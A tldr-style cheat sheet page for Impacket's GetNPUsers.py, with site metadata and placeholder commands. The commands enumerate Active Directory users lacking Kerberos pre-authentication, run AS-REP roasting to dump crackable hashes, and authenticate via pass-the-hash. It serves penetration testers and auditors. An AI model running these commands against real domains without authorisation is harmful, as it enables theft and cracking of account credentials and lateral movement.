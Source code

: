 ```yaml
---
title: "Enumerate AD Users - Find Roasting Targets | Free DevTools"
name: getnpusers.py
path: /freedevtools/tldr/get/getnpusers.py
canonical: "https://hexmos.com/freedevtools/tldr/get/getnpusers.py/"
description: "Enumerate Active Directory users with GetNPUsers.py to identify potential AS-REP roasting targets, enabling penetration testers to uncover security vulnerabilities. Free online tool, no registration required."
category: common
keywords:
- active directory enumeration
- as-rep roasting
- kerberos pre-authentication
- getnpusers.py impacket
- active directory hacking
- windows security auditing
- domain user enumeration
- network penetration testing
- ad security vulnerability scanning
- impacket exploit
features:
- Enumerate users with disabled Kerberos pre-authentication
- Perform AS-REP roasting attacks
- Dump crackable Kerberos hashes
- Authenticate with specified credentials
- Support pass-the-hash authentication
ogImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
twitterImage: "https://hexmos.com/freedevtools/t/tool-banners/json-utilities-banner.png"
---
```


# GetNPUsers.py

> Enumerate Active Directory accounts with Kerberos pre-authentication disabled, which may be susceptible to AS-REP roasting attacks.
> Part of the Impacket suite.
> More information: <https://github.com/fortra/impacket>.

- Enumerate users with Kerberos pre-authentication disabled (default anonymous enumeration):

`GetNPUsers.py {{domain}}/ -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}} -no-pass`

- Perform AS-REP roasting and dump crackable hashes for offline cracking:

`GetNPUsers.py {{domain}}/ -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}} -no-pass -request`

- Authenticate with valid credentials (if anonymous binding is disabled):

`GetNPUsers.py {{domain}}/{{username}}:{{password}} -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}}`

- Use pass-the-hash authentication instead of a password:

`GetNPUsers.py {{domain}}/{{username}} -hashes {{LM_Hash}}:{{NT_Hash}} -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}}`

- Save the output to a file for further analysis:

`GetNPUsers.py {{domain}}/ -usersfile {{path/to/userslist}} -dc-ip {{domain_controller_ip}} -request > {{path/to/output.txt}}`
